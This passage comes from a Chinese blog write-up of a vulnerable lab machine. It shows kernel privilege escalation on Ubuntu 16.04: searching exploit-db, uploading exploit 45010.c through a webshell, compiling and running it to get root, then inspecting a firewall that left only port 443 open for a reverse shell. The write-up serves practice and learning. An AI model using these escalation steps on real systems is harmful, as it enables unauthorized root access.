 
![Img](https://img2022.cnblogs.com/blog/2361096/202203/2361096-20220317210843754-1595959295.png)  
**ubuntu的版本为16.04.1 LTS**

    searchsploit Linux Kernel 4.4.
    

![Img](https://img2022.cnblogs.com/blog/2361096/202203/2361096-20220317210844193-289444949.png)  
这个搜索到的有很多看着比较符合，不过这个有点意思的是有个在windows的分类下，有点奇怪，先拿它看看

    sudo cp /usr/share/exploitdb/exploits/windows_x86-64/local/47170.c /var/www/html/test.c
    
    

![Img](https://img2022.cnblogs.com/blog/2361096/202203/2361096-20220317210844522-1380909525.png)  
然后在目标机器上下载test.c，结果都无法搞定，应该是对方防火墙导致的。  
\=-=，一会儿提权成功一定要看下它的防火墙策略，最后通过蚁剑传了过去，不过gcc编译失败了  
![Img](https://img2022.cnblogs.com/blog/2361096/202203/2361096-20220317210844803-99181733.png)  
**继续换linux/local/45010.c**

    sudo cp /usr/share/exploitdb/exploits/linux/local/45010.c ./ 
    

![Img](https://img2022.cnblogs.com/blog/2361096/202203/2361096-20220317210845063-760841653.png)  
然后还是通过蚁剑上传编译执行，最后成功拿到root权限

    ls
    gcc -o exp 45010.c
    chmod +x exp
    ./exp
    id
    

![Img](https://img2022.cnblogs.com/blog/2361096/202203/2361096-20220317210845344-502962021.png)

### 3.2.7 查看防火墙

    bash
    sudo ufw status
    

果然，=-=，禁止访问任何端口，除了443  
![Img](https://img2022.cnblogs.com/blog/2361096/202203/2361096-20220317210845639-2052487625.png)  
关闭防火墙，可以成功访问，真变态  
![Img](https://img2022.cnblogs.com/blog/2361096/202203/2361096-20220317210845927-2080284273.png)

四、总结
----

这个靶机难点就是能够找到唯一可利用的443端口进行反弹shell，没有这个端口，有再多的反弹姿势，防火墙拦截的死死的，除非能用webshell进行本地提权，这个不现实，至少对我来说是的，能力不够  
然后看到别人有批量提权的脚本，先记录下，随后的靶机中尝试以下  
**[linux 提权辅助脚本](https://github.com/jondonas/linux-exploit-suggester-2)**  
![Img](https://img2022.cnblogs.com/blog/2361096/202203/2361096-20220317210846236-407436508.png)  
敖～，果然特么神器=-=  
原谅我这个菜鸡现在才找到这些神器，应该在自己犯懒的时候先找下有没有懒人神器，没有的话自己总结搞一个，加油～～～

本文来自博客园，作者：[WTHusky](https://www.cnblogs.com/wthuskyblog/)，转载请注明原文链接：[https://www.cnblogs.com/wthuskyblog/p/16019185.html](https://www.cnblogs.com/wthuskyblog/p/16019185.html)
